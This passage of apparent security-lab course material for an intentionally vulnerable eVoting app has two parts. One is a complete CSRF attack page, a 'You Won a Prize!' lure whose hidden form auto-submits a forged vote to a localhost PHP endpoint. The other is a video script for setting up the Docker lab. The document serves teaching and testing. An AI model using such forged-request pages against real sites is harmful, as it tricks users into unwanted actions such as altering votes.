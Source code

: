 ### Complete CSRF Attack

```html
<!-- csrf_attack.html -->
<!DOCTYPE html>
<html>
<head>
    <title>You Won a Prize!</title>
</head>
<body>
    <h1>Congratulations!</h1>
    <p>Click below to claim your prize!</p>
    
    <!-- Hidden auto-submit form -->
    <form id="malicious" action="http://localhost:8181/evoting/electioninfo2016.php" method="POST">
        <input type="hidden" name="president" value="Evil Candidate">
        <input type="hidden" name="VoterId" value="50001">
        <input type="hidden" name="StateNum" value="1">
        <input type="hidden" name="submit" value="Submit">
    </form>
    
    <button onclick="document.getElementById('malicious').submit()">
        Claim Prize!
    </button>
    
    <!-- Or auto-submit -->
    <script>
        setTimeout(function() {
            document.getElementById('malicious').submit();
        }, 3000);
    </script>
</body>
</html>
```

---

## 🎬 Video Tutorial Scripts

### Video 1: Environment Setup (5 min)

**Script:**
```
[0:00] "Welcome to the eVoting Security Lab!"
[0:15] "Today we'll set up your testing environment"
[0:30] Show terminal, run: docker-compose up -d
[1:00] "While containers start, let's discuss what we have"
[1:15] Explain 3 services: web, db, phpmyadmin
[2:00] Show: docker-compose ps
[2:30] Access application in browser
[3:00] Configure Burp Suite proxy
[4:00] Test basic functionality
[4:30] "You're ready to start hacking!"
```
